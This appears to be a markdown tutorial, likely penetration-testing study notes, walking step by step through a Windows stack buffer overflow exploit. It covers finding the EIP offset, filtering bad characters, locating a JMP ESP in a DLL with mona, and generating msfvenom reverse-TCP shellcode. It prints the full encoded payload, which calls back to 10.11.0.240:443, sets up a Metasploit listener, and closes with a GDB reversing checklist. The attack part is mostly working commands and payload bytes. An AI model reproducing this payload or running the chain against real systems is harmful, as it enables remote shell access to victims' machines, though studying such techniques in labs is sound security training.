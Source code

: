 # Buffer overflow (BOF)

This is a step-by-step exploitng a windows application vulnerable to BOF. 

Tools:
- Download Immunity Debugger and install Mona (https://github.com/corelan/mona)
- Drop mona.py into the 'PyCommands' folder (inside the Immunity Debugger application folder).

https://github.com/corelan/mona

# Create unique pattern to find offset

Create a unique pattern and feed the exploit with this to identify the exact position of EIP. In the example it will be create a unique string of 2700 chars

```
$ msf-pattern_create -l 2700
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8A....
```

Open the vulnerable applciation on Immunity Debugger and execute. Check the EIP value, in this example it shows
```
39 69 44 38
```

# Find exact string position where EIP will be overwritten

Feed the values that is on EIP register to find the offset
```
> msf-pattern_offset.rb -q 39694438
[*] Exact match at offset 2606
```
In this example it will take 2606 chars until it gets to the EIP register. For example, if we want to fill the EIP register with B's we would send this string:
```
string = "A" * 2606 + "BBBB" + "C" * 500
```

Now that we control the  EIP we can manipulate the program flow. We can make the program execute a shell code that we want

# Size of shellcode
Keep in mind that sometimes we need to care about the Shellcode size. 
ShellCode for a reverse _tcp.
350 and 400 bytes of space

# Finding bad chars Bad Chars
Buffer Overlow when using string copy: 
- null hex code: 00 (because it flag end of the string so everything after the null byte will be ignored)
- 0x0D (return carriage)
- ax0A (line feed)

Send all chars from \x00 to \xFF and manually check in the memory dump each value if it's in the correct order.
Let's say that you look into the memory dumo and see: "\x00\x01\xB0" in this case the char after \x01 should be \x02 but we got \B0. 

It means that \x02 is a bad char, remove the \x02 from the string and send it again. Repeat the process until all bad chars are gone.

```
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
# Find modules and dlls used by a program, in this way I can try to use a DLL do JMP to my ESP
We a looking for a DLL that was compiled without ASLR, SafeSEH, NXCompat
```
!mona modules
!mona find -s "\xff\xe4" -m slmfc.dll
```

# Finding out opcode for each instructions
it makes easier to search inside the debugger for this instruction

> /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp

# Creating a shellcode
> msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.240 LPORT=443 -f c -a x86 --platform windows -b '\x00\x0d\x0a' -e x86/shikata_ga_nai
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xd9\xed\xb8\x08\x9c\xb4\xea\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x52\x31\x42\x17\x83\xea\xfc\x03\x4a\x8f\x56\x1f\xb6\x47\x14"
"\xe0\x46\x98\x79\x68\xa3\xa9\xb9\x0e\xa0\x9a\x09\x44\xe4\x16"
"\xe1\x08\x1c\xac\x87\x84\x13\x05\x2d\xf3\x1a\x96\x1e\xc7\x3d"
"\x14\x5d\x14\x9d\x25\xae\x69\xdc\x62\xd3\x80\x8c\x3b\x9f\x37"
"\x20\x4f\xd5\x8b\xcb\x03\xfb\x8b\x28\xd3\xfa\xba\xff\x6f\xa5"
"\x1c\xfe\xbc\xdd\x14\x18\xa0\xd8\xef\x93\x12\x96\xf1\x75\x6b"
"\x57\x5d\xb8\x43\xaa\x9f\xfd\x64\x55\xea\xf7\x96\xe8\xed\xcc"
"\xe5\x36\x7b\xd6\x4e\xbc\xdb\x32\x6e\x11\xbd\xb1\x7c\xde\xc9"
"\x9d\x60\xe1\x1e\x96\x9d\x6a\xa1\x78\x14\x28\x86\x5c\x7c\xea"
"\xa7\xc5\xd8\x5d\xd7\x15\x83\x02\x7d\x5e\x2e\x56\x0c\x3d\x27"
"\x9b\x3d\xbd\xb7\xb3\x36\xce\x85\x1c\xed\x58\xa6\xd5\x2b\x9f"
"\xc9\xcf\x8c\x0f\x34\xf0\xec\x06\xf3\xa4\xbc\x30\xd2\xc4\x56"
"\xc0\xdb\x10\xf8\x90\x73\xcb\xb9\x40\x34\xbb\x51\x8a\xbb\xe4"
"\x42\xb5\x11\x8d\xe9\x4c\xf2\xb8\xe6\x4e\xf2\xd5\xfa\x4e\xf3"
"\x9e\x72\xa8\x99\xf0\xd2\x63\x36\x68\x7f\xff\xa7\x75\x55\x7a"
"\xe7\xfe\x5a\x7b\xa6\xf6\x17\x6f\x5f\xf7\x6d\xcd\xf6\x08\x58"
"\x79\x94\x9b\x07\x79\xd3\x87\x9f\x2e\xb4\x76\xd6\xba\x28\x20"
"\x40\xd8\xb0\xb4\xab\x58\x6f\x05\x35\x61\xe2\x31\x11\x71\x3a"
"\xb9\x1d\x25\x92\xec\xcb\x93\x54\x47\xba\x4d\x0f\x34\x14\x19"
"\xd6\x76\xa7\x5f\xd7\x52\x51\xbf\x66\x0b\x24\xc0\x47\xdb\xa0"
"\xb9\xb5\x7b\x4e\x10\x7e\x8b\x05\x38\xd7\x04\xc0\xa9\x65\x49"
"\xf3\x04\xa9\x74\x70\xac\x52\x83\x68\xc5\x57\xcf\x2e\x36\x2a"
"\x40\xdb\x38\x99\x61\xce";

# Waiting for a reverse shell
Open metasploit and use the same payload that was used to create the shellcode and listen for the connection.
Sometimes, listening only with Netcat is not enough

```use exploit/multi/handler```





##Methodology

1. Investigate the file
```
file
strings
```

2. Test it out - what does the program do?

3. Look at its functions in GDB

```
info functions
```

4. Look at the assembly of a function

```
disass main
disass otherfunction
```

5. Look for the flow of the program. Look for cmp

6. Set up breakpoints with hooks

```
define hook-stop
info registers  ;show the registers
x/24xw $esp  ;show the stack
x/2i $eip  ;show the new two instructions
end
```

7. Step through the whole program. Or at the breakpoints

```
si ;steps one forward, but follows functions
ni ;does not follow functions
```
